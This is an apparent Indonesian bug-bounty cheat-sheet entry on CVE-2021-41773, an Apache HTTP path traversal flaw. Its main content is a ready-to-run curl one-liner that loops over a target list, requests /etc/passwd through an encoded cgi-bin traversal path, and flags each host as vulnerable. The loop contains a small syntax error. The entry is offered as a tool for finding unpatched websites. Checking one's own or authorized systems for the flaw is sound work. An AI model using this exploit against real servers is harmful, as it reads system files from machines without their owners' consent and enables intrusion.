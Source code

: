 ## Common Vulnerabilities and Exposures (CVE) 
* CVE adalah kerentanan yang sudah dipublikasikan dan sebagai bug hunter kita bisa menggunakannya untuk mencari web yang belum memperbaiki kerentanan tersebut

#### CVE 2021-41773

* Path Traversal Zero-Day pada Apache HTTP

One Liner:
* Masukkan daftar target ke file targets.txt dan lakukan scanning dengan command dibawah ini:
```
cat targets.txt | while read host do ; do curl --silent --path-as-is --insecure "$host/cgi-bin/.%2e/%2e%2e/%2e%2e/%2e%2e/etc/passwd" | grep "root:*" && echo "$host \033[0;31mVulnerable\n" || echo "$host \033[0;32mNot Vulnerable\n";done
```

POC dari Rohit Gautam cek twitternya di @HackerGautam
